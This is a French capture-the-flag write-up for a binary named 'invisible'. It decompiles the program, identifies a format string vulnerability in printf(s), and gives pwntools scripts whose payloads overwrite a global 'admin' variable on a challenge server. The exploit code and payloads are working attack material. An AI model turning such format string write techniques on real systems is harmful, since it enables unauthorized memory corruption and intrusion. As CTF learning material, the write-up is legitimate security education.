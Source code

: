 on regarde le type de fichier `file invisible` (c'est du binaire)
`strings invisble` ne donne rien.
`chmod +x invsible` pour rendre le fichier éxecutable.

**déssemblage sur https://dogbolt.org**

fonction main et print_flag:

``` C
//----- (0000000000401186) ----------------------------------------------------
int print_flag()
{
  return system("cat /home/ecowas/flag");
}

//----- (000000000040119C) ----------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  char s[140]; // [rsp+10h] [rbp-90h] BYREF
  int v6; // [rsp+9Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  v6 = rand() % 50;
  memset(s, 0, 0x80uLL);
  fgets(s, 128, stdin);
  printf(s);
  if ( v6 == 27 )
  {
    if ( admin == 200 )
      print_flag();
  }
  else
  {
    printf("Try again");
  }
  return 0;
}
```

donc, pour le défi, quelques faits que nous pouvons lire à partir du binaire :
- pas de PIE, donc toutes les adresses sont fixes, sympa
- la variable admin est à une adresse constante, vous pouvez trouver cela facilement avec un désassembleur ou un décompilateur
- le rng est amorcé avec srand(time(NULL)), ce qui signifie l'heure actuelle en secondes
- cela signifie que chaque seconde vous obtenez une nouvelle valeur aléatoire
- la valeur aléatoire v6 % 50 doit être 27, donc environ toutes les 50 tentatives, elle sera correcte sans que nous fassions quoi que ce soit.
- donc la seule chose que nous devons faire est d'écraser `admin` à `200`.

- *Nous avons trouvé quelque chose d'intéressant: `print(s)` c'est à dire que notre input sera affiché d'abord.* Voyons celà   
![[test1.png]]
Sound interesting ;-) .
Testons le **Format string vulnerability**  [article:](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b):
![[formatstring.png]]
Gooooddddd !!! nous avons des addresses du stack.

- **Allons plus loin**: Où est stocké notre input?
```python
from pwn import *


for i in range(10):
    p = process(["./invisible"])
    p.sendline(f"AAAAAAAA %{i}$lx") # i représente l'argument
    print(i, p.readline(1024))
    p.close()
    print("\n")
```

l'argument 8 afficher notre input en  `hex`:
![[arg8.png]]

Maintenant on cherche l'adresse de la fonction `admin`:
![[adminfunc.png]]

Cherchons notre padding entre le format string et l'addresse:
addresse `%8$n`  commence à l'octet 0
addresse `%9$n` à l'octet 8
addresse `%10$n` à l'octet 16

**Exploitation**
shellcode= `%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00`
%200c%10$n : on écrit 200 dans l'argument 10
XXXXXX: ne signifie rien, on peut le remplacer par des espaces ou null bytes
\x5c\x40\x40\x00\x00\x00\x00\x00 : l'adresse de l'admin en `Little endian`

exploit 1: Simple mais il faut taper entrée à chaque fois pour avancer
```python
from pwn import *

for i in range(51):
    r = remote("51.38.37.81", 1234)
    r.sendline(b"%200c%10$nXXXXXX\x5c\x40\x40\x00\x00\x00\x00\x00")
    r.interactive()
```

exploit 2: automatisé
```python
from pwn import *
import sys
import time


context.log_level = "error"

binary = ELF("./invisible")
admin_addr = binary.symbols["admin"]
print(f"&admin = {hex(admin_addr)}")

for i in range(100):
    r =remote("51.38.37.81", 1234) 

    fmtstr = b"%200c%11$n%25$016lx\0\0\0\0\0"
    assert len(fmtstr) == 24
    fmtstr += p64(admin_addr)

    r.sendline(fmtstr)

    data = r.readall()
    data2 = data[200:] # remove garbage
    try:
        rand = int(data2[0:8].decode(), 16)
        text = data2[16:].decode()
        print(f"i = {i}, rand = {rand}, text = {text}")

        if rand == 27:
            print("this should have been the flag, maybe admin isn't correctly overwritten?")
            break
    except Exception:
        print(data) # print whole line, probably flag
        break

    time.sleep(1)
```

THAT'S IT !!!!!!!!!!!!!!!!!!!!!!!!!!!! ;-)

